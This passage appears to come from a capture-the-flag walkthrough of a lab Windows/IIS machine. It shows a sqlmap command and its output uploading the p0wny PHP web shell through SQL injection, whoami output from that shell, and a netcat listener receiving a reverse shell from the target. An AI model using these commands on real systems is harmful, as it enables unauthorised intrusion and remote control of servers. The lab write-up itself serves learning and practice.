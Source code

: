 ```
do you want confirmation that the local file '/home/kali/CTFs/library/WebShells/p0wny-shell-master/shell.php' has been successfully written on the back-end DBMS file system ('/Inetpub/wwwroot/p0wny.php')? [Y/n] 
[18:17:25] [INFO] the local file '/home/kali/CTFs/library/WebShells/p0wny-shell-master/shell.php' and the remote file '/Inetpub/wwwroot/p0wny.php' have the same size (15744 B)
[18:17:26] [INFO] fetched data logged to text files under '/home/kali/.sqlmap/output/10.10.10.167'
[18:17:26] [WARNING] you haven't updated sqlmap for more than 114 days!!!

[*] ending @ 18:17:26 /2020-04-24/


```
Note: Also works using --headers instead of --proxy:
```
sqlmap --data=productName=16 --headers="X-Forwarded-For: 192.168.4.28" -u http://10.10.10.167/search_products.php --file-dest="/Inetpub/wwwroot/p0wny.php" --file-write="/home/kali/CTFs/library/WebShells/p0wny-shell-master/shell.php"
```
Now, let's go to http://10.10.10.167/p0wny.php and get access:

```

        ___                         ____      _          _ _        _  _   
 _ __  / _ \__      ___ __  _   _  / __ \ ___| |__   ___| | |_ /\/|| || |_ 
| '_ \| | | \ \ /\ / / '_ \| | | |/ / _` / __| '_ \ / _ \ | (_)/\/_  ..  _|
| |_) | |_| |\ V  V /| | | | |_| | | (_| \__ \ | | |  __/ | |_   |_      _|
| .__/ \___/  \_/\_/ |_| |_|\__, |\ \__,_|___/_| |_|\___|_|_(_)    |_||_|  
|_|                         |___/  \____/                                  
                

            

p0wny@shell:C:\inetpub\wwwroot# whoami
nt authority\iusr
```

iusr seems to be an IIS user with low privileges. Let's Privesc!
No prob, let's upload a nc, using also sqlmap, and make a reverse shell

In our machine:
```
kali@kali:/var/www/html$ sudo nc -nlvp 1999
listening on [any] 1999 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.167] 52191
Microsoft Windows [Version 10.0.17763.805]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot>whoami
whoami
nt authority\iusr

C:\inetpub\wwwroot>
```
